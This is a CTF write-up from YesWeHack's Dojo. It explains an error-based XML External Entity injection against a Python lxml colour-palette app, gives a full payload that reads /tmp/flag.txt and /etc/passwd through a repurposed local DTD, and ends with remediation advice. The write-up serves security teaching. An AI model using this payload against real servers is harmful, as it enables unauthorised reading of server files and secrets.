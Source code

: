 > This writeup was selected as one of the best for this challenge. [Read it on the YesWeHack website](https://www.yeswehack.com/dojo/dojo-ctf-challenge-winners-42)

## Description
This challenge revolves around a Python web application that renders user-supplied XML data through a templated HTML interface. The application uses the `lxml` library to parse XML files and extract hexadecimal colour codes to populate a front-end colour palette. However, the XML parser is configured to allow external Document Type Definitions (DTDs) and resolve entities, which opens the door to an XML External Entity (XXE) injection vulnerability.

Due to insufficient input validation and insecure parser configurations, an attacker is able to inject arbitrary entity declarations, thereby allowing him to manipulate the server into disclosing files stored on it.

## Exploitation
To identify potential vulnerabilities within an application, analysing the source code is an effective approach as it reveals insecure coding practices, such as improper input validation or the misuse of certain libraries. In this scenario, we are presented with a web application that accepts a user input, which is then parsed by the program - potentially influencing the contents returned to the user.

### Code Analysis
The first step in performing our taint tracking is to examine how our input is being handled by the program. In this scenario, a Web Application Firewall URL-encodes the user input before it reaches the web server.

```python
data = unquote(USER_INPUT)

try:
    parsed_text, colors = promptFromXML(data)
except Exception as e:
    parsed_text = f"Error : {str(e)}"
    colors = []

print(template.render(output=parsed_text, colors=colors, image=None))
```

Our user input is first decoded using the `unquote()` function, returning to its original form (our raw input) before being passed to the `parse_palette()` function. The result of XML parsing, or any errors that occurs, is echoed back to the user in a templated HTML response. This hints that our payload could manipulate the contents of error messages, which often tend to be verbose.

```python
def parse_palette(xml_data):
    parser = etree.XMLParser(load_dtd=True, resolve_entities=True)
    tree = etree.parse(io.StringIO(xml_data), parser)
    root = tree.getroot()
    colors = set()

    # Only parsing hex color
    for elem in root.iter():
        if elem.text and re.match(r"^#(?:[0-9a-fA-F]{3,6})$", elem.text.strip()):
            colors.add(elem.text.strip().lower())

    return list(colors)
```

The `parse_palette()` function is where the bulk of the data processing lies at. There are a few key points that can be noted regarding the function's implementation:

- `load_dtd=True`: allows the XML parser to load external DTDs
- `resolve_entities=True`: enables the expansion of external entities
- There is no sanitisation of the `xml_data` parameter

In the setup code, we can observe that there is a DTD file located at `/tmp/xml/config.dtd`:

``` python
with open("xml/config.dtd", 'w') as f:
    f.write('''
<!ENTITY % dtd "<!ELEMENT config (#PCDATA)>">
%config_hex;
''')
```

Note the reference to an undefined entity `%config_hex`.

### Conclusions drawn from Code Analysis

From the configuration of `lxml.etree.XMLParser` in which both `load_dtd` and `resolve_entities` were set to `True`, we can deduce that the application will:

1. Load external DTDs from file paths
2. Expand nested parameter entities
3. Attempt to resolve file paths provided within entity values

From the DTD file stored at `/tmp/xml/config.dtd` which contains an undefined entity `%config_hex`, we can deduce the possibility of overriding this entity with arbitrary ones, which will be subsequently loaded by the parser. Based on this idea, we can slowly piece together a payload:

To begin with, we need to load the local DTD at `/tmp/xml/config.dtd`:

```xml
<!ENTITY % local_dtd SYSTEM "file:///tmp/xml/config.dtd">
```

Next, we need to override `%config_hex`, which could have nested parameter entities that would be expanded via the parser's `resolve_entities=True` configuration. We need to include the following:

```xml
<!ENTITY % flag SYSTEM "file:///tmp/flag.txt">
```

This allows reads the contents of `/tmp/flag.txt` into the `%flag` entity.

```xml
<!ENTITY % eval "<!ENTITY % error SYSTEM 'file:///aaa/%flag;'>">
```

This creates a nested entity `%error` that references a non-existent file path (`aaa`) with the flag appended to it.

```xml
%eval;
```

This expands `%eval`, which causes the parser to resolve `%error`.

Finally, we just need the parser to load `/tmp/xml/config.dtd`, which will then encounter `%config_hex` (which we have overridden).

```xml
%local_dtd;
```

The parser will then read the contents of `/tmp/flag.txt` into `%flag`, and within `%error`, construct a path `file:///aaa/{FLAG_CONTENT}`. Since the filepath `aaa/{FLAG_CONTENT}` most probably does not exist, an error containing the resolved path will be thrown, and the resolved path will be returned as part of the error message (hopefully).

## Proof of Concept
Before we merge everything together, we need to note that some characters need to be replaced with their Unicode hex character codes to bypass parser restrictions and prevent premature expansions during entity parsing.

| Original | Encoded |
| --- | --- |
| `%` | `&#x25;` |
| `&` | `&#x26;` |
| `'` | `&#x27;` |

Double-encoding is also used to delay expansions. For example, `&#x26;#x25;` -> `&#x25;` -> `%`.

![Flag Revealed](./images/flag_revealed.png)

**PAYLOAD:**
```xml
<!DOCTYPE colors [
    <!ENTITY % local_dtd SYSTEM "file:///tmp/xml/config.dtd">
    <!ENTITY % config_hex '
        <!ENTITY &#x25; flag SYSTEM "file:///tmp/flag.txt">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///aaa/&#x25;flag;&#x27;>">&#x25;eval;'>
        %local_dtd;
]>
```

**FLAG: `FLAG{3rr0r_B4s3d_XX3_w1th_Sw4G}`**

## Risk
This vulnerability presents a serious risk as it allows an attacker to read files on the server, leading to a loss of confidentiality. For example, we are able to leak the contents of `/etc/passwd`:

![Leaked /etc/passwd Contents](./images/passwd_file_leaked.png)

## Remediation
To remediate this vulnerability, the configuration options of the `lxml.etree.XMLParser`, in particular, `load_dtd` and `resolve_entities` should be set to `False` to prevent the loading of DTDs and entity expansions.

Input validation and sanitisation should be incorporated before the user input is processed by the `parse_palette()` function to prevent blacklisted characters and keywords (e.g. `<!DOCTYPE`, `SYSTEM`) from being parsed.

Additionally, error messages returned to the user should avoid including the XML parser's error messages as these could unintentionally leak file paths, stack traces, and in this scenario, the contents of arbitrary files.

![Challenge Completed](./images/pwned.jpg)